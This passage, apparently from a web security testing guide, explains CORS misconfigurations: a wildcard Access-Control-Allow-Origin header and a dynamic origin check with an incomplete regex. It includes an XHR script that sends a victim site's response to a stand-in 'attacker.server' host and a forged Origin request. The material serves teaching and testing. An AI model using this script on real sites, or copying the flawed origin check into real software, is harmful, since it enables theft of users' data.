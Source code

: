 #### Wildcard Access-Control-Allow-Origin

A tester can check if the `Access-Control-Allow-Origin: *` exists in the HTTP response messages.

```http
HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 4
Content-Type: application/xml

[Response Body]
```

If a response contains sensitive data, an attacker can steal it through the usage of XHR:

```html
<html>
    <head></head>
    <body>
        <script>
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (this.readyState == 4 && this.status == 200) {
                    var xhr2 = new XMLHttpRequest();
                    // attacker.server: attacker listener to steal response
                    xhr2.open("POST", "https://attacker.server", true);
                    xhr2.send(xhr.responseText);
                }
            };
            // victim.site: vulnerable server with `Access-Control-Allow-Origin: *` header 
            xhr.open("GET", "https://victim.site", true);
            xhr.send();
        </script>
    </body>
</html>
```

#### Dynamic CORS Policy

A modern web application or API may be implemented to allow cross-origin requests dynamically, generally in order to allow the requests from the sub domains like the following:

```php
if (preg_match('|\.example.com$|', $_SERVER['SERVER_NAME'])) {
   header("Access-Control-Allow-Origin: {$_SERVER['HTTP_ORIGIN']}");
   ...
}
```

In this example, all the requests from the subdomains of example.com will be allowed. It must be ensured that the regular expression that is used to match is complete. Otherwise, if it was simply matched with `example.com` (without `$` appended), attackers might be able to bypass the CORS policy by appending their domain to the `Origin` header.

```http
GET /test.php HTTP/1.1
Host: example.com
[...]
Origin: https://example.com.attacker.com
Cookie: <session cookie>
```
